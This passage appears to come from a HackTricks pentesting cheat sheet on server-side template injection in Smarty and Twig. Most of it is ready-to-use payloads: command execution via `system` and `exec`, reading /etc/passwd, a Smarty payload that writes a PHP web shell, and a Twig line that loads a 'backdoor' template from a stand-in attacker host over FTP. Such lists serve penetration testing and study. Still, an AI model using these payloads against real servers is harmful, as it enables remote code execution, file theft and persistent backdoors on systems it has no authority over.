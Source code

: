 ![](https://book.hacktricks.xyz/~gitbook/image?url=https%3A%2F%2Ffiles.gitbook.com%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252F-L_2uGJGU7AVNRcqRvEi%252Fuploads%252FelPCTwoecVdnsfjxCZtN%252Fimage.png%3Falt%3Dmedia%26token%3D9ee4ff3e-92dc-471c-abfe-1c25e446a6ed&width=768&dpr=4&quality=100&sign=9c8fe74f&sv=1)

​​[**RootedCON**](https://www.rootedcon.com/) is the most relevant cybersecurity event in **Spain** and one of the most important in **Europe**. With **the mission of promoting technical knowledge**, this congress is a boiling meeting point for technology and cybersecurity professionals in every discipline.

[![Logo](https://www.rootedcon.com/img/favicons/apple-touch-icon-180x180.png)RootedCONRootedCON](https://www.rootedcon.com/)

## 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#undefined)

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#smarty-php)

Smarty (PHP)



```
{$smarty.version}
{php}echo `id`;{/php} //deprecated in smarty v3
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
{system('ls')} // compatible v3
{system('cat index.php')} // compatible v3
```

**More information**

- In Smarty section of [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
    
- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#smarty](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#smarty)
    

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#twig-php)

Twig (PHP)

- `{{7*7}} = 49`
    
- `${7*7} = ${7*7}`
    
- `{{7*'7'}} = 49`
    
- `{{1/0}} = Error`
    
- `{{foobar}} Nothing`
    



```
#Get Info
{{_self}} #(Ref. to current application)
{{_self.env}}
{{dump(app)}}
{{app.request.server.all|join(',')}}

#File read
"{{'/etc/passwd'|file_excerpt(1,30)}}"@

#Exec code
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("whoami")}}
```